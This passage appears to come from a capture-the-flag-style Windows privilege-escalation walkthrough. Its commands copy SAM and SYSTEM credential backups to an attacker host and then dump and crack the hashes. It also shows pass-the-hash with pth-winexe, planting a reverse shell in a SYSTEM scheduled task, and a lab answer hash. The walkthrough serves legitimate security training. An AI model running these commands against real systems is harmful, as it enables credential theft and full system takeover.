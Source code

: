 The `SAM` and `SYSTEM` files can be used to extract user password hashes. This VM has insecurely stored backups of the `SAM` and `SYSTEM` files in the `C:\Windows\Repair\` directory.

Transfer the `SAM` and `SYSTEM` files to the Kali VM:

copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\

On Kali, clone the `creddump7` repository (the one on Kali is outdated and will not dump hashes correctly for Windows 10!) and use it to dump out the hashes from the SAM and SYSTEM files:

git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM

Crack the admin `NTLM` hash using `hashcat`:

hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt

Use the cracked password to log in as the admin using winexe or RDP.

### Questions[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#id3 "Permalink to this heading")

**What is the NTLM hash of the admin user?**

Answer: `a9fdfa038c4b75ebc76dc855dd74f0da`

## Passwords - Passing the Hash[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#passwords-passing-the-hash "Permalink to this heading")

Why crack a password hash when you can authenticate using the hash?

Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. The full hash includes both the `LM` and `NTLM` hash, separated by a colon:

pth-winexe -U 'admin%hash' //MACHINE_IP cmd.exe

## Scheduled tasks[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#scheduled-tasks "Permalink to this heading")

View the contents of the C:\DevTools\CleanUp.ps1 script:

type C:\DevTools\CleanUp.ps1

The script seems to be running as `SYSTEM` every minute. Using `accesschk.exe`, note that you have the ability to write to this file:

C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1

Start a listener on Kali and then append a line to the `C:\DevTools\CleanUp.ps1` which runs the `reverse.exe` executable created:

echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1

Wait for the Scheduled Task to run, which should trigger the reverse shell as `SYSTEM`.
